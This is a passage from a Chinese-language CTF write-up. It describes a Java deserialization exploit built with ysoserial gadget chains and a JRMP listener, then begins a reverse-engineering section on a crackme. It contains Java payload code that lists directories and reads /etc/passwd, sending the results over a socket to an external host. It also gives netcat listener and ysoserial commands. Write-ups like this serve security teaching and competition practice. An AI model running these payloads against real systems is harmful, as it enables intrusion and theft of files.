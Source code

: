 此时将第10行生成的代码，直接打到远程即可。  
然后进而写一下获取文件，以及获取目录的代码。此时拿到文件，无法回显。我们可以用Socket来将文件发送到我们的服务器，然后nc监听端口即可。  
```
// 以下代码使用时，记得压缩到一行。
// 获取目录下内容
java.io.File file  =new java.io.File("/");
java.io.File[] fileLists = file.listFiles();
java.net.Socket s = new java.net.Socket("eval.com",8768);

for (int i = 0; i < fileLists.length; i++) {
  java.io.OutputStream out = s.getOutputStream();
  out.write(fileLists[i].getName().getBytes());
  out.write("\n".getBytes());
}

// 获取文件内容
java.io.File file = new java.io.File("/etc/passwd");
java.io.InputStream in = null;
in = new java.io.FileInputStream(file);
int tempbyte;
java.net.Socket s = new java.net.Socket("eval.com",8768);
while ((tempbyte = in.read()) != -1) {
  java.io.OutputStream out = s.getOutputStream();
  out.write(tempbyte);
}
in.close();
s.close();
```
然后操作如下：  
修改替换{{内容}}  
开启监听端口  
建议采用ceye的dnslog查看  
执行时合并为一行，为了好看，我换了下行  
```
java -cp ysoserial-5am3.jar ysoserial.exploit.JRMPListener 8099 
    CommonsBeanutils1 'code:{{javapayload}}'
```
#生成链接JRMPListener的payload  
ip端口那里填写运行第4行脚本的主机地址端口  
`java -jar ./ysoserial-5am3.jar JRMPClient2 {{10.0.0.1:8099}} | base64`  
监听端口数据
>nc -lnvp 2333

此时将第10行生成的代码，直接打到远程即可。
![](https://xzfile.aliyuncs.com/media/upload/picture/20190419014937-556bf6f8-6202-1.png)  
p.s. /flag是个文件夹

## Reverse
**作者：admin-琴里、impakho**
### Cofused
![](https://i.loli.net/2019/04/18/5cb8331aa6140.png)  
这个文件下载下来是app的安装包  
然后再安装包里发现了一个叫xia0Crackme文件  
![](https://i.loli.net/2019/04/18/5cb833314bf25.png)  
然后我们拖到IDA里面  
查找字符串  
![](https://i.loli.net/2019/04/18/5cb8335ad772a.png)  
交叉引用来到关键函数  
![](https://i.loli.net/2019/04/18/5cb8337af011c.png)  
函数都标有注释（震惊！出题人果然是一个良好的大佬）  